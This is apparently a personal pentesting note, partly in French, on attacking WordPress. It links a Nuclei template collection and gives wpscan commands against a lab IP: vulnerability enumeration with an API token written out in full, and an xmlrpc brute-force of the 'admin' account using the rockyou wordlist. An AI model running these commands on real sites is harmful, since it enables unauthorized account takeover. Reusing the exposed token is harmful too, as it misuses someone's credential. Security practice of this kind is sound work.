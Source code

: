 # WordPress

## Nuclei

[Templates Wordpress](https://github.com/topscoder/nuclei-wordfence-cve)

## recuperer un clé api gratuite sur wpscan

wpscan --url http://10.10.110.100:65000/wordpress --enumerate --api-token NYuwCbv8GWaswuY0QzyFdvHi1nD7Ao7pbOkTvH8Pjsk

wpscan --password-attack xmlrpc -t 20 -U admin -P rockyou.txt --url http://10.10.110.100:65000/wordpress/



